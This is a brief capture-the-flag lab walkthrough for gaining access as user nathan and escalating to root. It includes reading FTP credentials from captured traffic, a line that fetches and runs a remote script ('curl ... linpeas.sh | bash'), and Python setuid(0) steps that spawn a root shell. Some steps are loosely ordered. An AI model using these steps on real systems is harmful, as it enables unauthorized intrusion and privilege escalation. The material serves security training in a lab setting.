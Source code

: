**Objective**
Privilege escalation by accessing account belonging to nathan to find API key.

**Solving The Box**
- Open lab webpage by entering target machine IP address into own web browser address bar.
- Find and open *network status* menu. Download network status file. Open in *wireshark* to see logs of file transfer protocol traffic. Find password for user account nathan.
- Login via ssh command `ssh nathan@<IP address>`.
- Download linpeas.sh using Google search. Go to folder with linpeas.sh., then open terminal there. 
- In the terminal, enter command `sudo python3 -m http.server` to start a server to send linpeas.sh to the target machine.
- Return to terminal with nathan logged in. Enter command `curl http://<IP address>/linpeas.sh | bash`
- If it does not work, manually execute linpeas.sh by running command `./linpeas.sh`. 
- For manual execution, first receive access to root using commands:
		`cd /tmp` *this is to enter tmp folder*
		`import os` 
		`os.setuid(0)` *here 0 corresponds to root user id*
		`os.system("/bin/bash")`

**Bonus Information**
- `help` command reveals all allowed commands on port. `man` followed by command name opens its manual page.

